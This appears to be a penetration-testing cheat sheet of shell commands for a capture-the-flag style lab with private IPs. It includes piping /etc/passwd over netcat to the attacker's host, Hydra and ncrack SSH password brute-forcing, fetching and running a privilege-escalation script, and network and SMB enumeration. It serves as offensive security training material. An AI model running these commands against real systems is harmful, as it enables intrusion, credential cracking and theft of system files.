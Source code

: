 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Grep only usernames from /etc/passwd
`cat /etc/passwd | grep -E '/home/|/root'`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Enumerate directories
`dirb http://10.37.129.11`

##### Enumerate Linux (Gets OS, host, shares, potential usernames)
`enum4linux -a 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### SSH on custom port
`ssh user@10.37.129.11 -p 22222`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Copy file over SCP
```bash
$ scp -r -P 22 username@10.37.129.4:/home/whatever ~/<destination>
$ scp safe root@10.37.129.11:~/<destination>
```

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### NCRACK password enumeration and SSH crack
`ncrack -v –user <username> -P <password_list> ssh://10.37.129.11:22222`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```

##### enum4linux ALL option
`enum4linux -a 10.37.129.11`

##### gzip extract
`tar -xzvf file.tar.gz`

##### DNS quert using nslookup
```bash
## Any records
nslookup -q=any domain.com

## Just specific ones
nslookup -q=TXT site.domain.com
```

##### smbclient scan
`smbclient -L 10.37.129.11`

##### smbclient connect
`smbclient '\\10.37.129.11\<sharename>'`

##### SMB share connect via web browser
`smb://10.37.129.11/<sharename>/`

##### Windows related enum
```bash
net users
net localgroup Administrators
lusrmgr.msc
```
